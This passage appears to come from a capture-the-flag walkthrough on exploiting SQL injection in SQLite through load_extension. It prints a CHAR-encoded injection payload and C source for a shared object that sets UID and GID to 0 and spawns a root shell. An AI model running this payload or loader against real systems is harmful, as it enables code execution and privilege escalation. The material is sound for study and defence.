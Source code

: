 ![sql statemnt](./pic/sql.png)
	
Now we have our attack vector:

When we have sql statement on a filesystem that we can access i use the load_extension technique as u see here (done with dll):

https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/

in our case we can import a shared object file that we compile our self.

In fact if we try the sqlinjection with the load_extension with this payload (WE ARE ALSO LIMITED BY THE BUFFER OF PRINTABLE CHARS):
```sql
"or(load_extension(CHAR(46,47,100)))--
```
output:
```bash
Error: ./d.so: cannot open shared object file: No such file or directory
```
we now need to create a shared object file in c and the compile it.

i've written this:
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

__attribute__((constructor))
void func(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```
this is a simple script that set UID and GID at 0 and execute a shell (we could also run a revshell if u prefer)
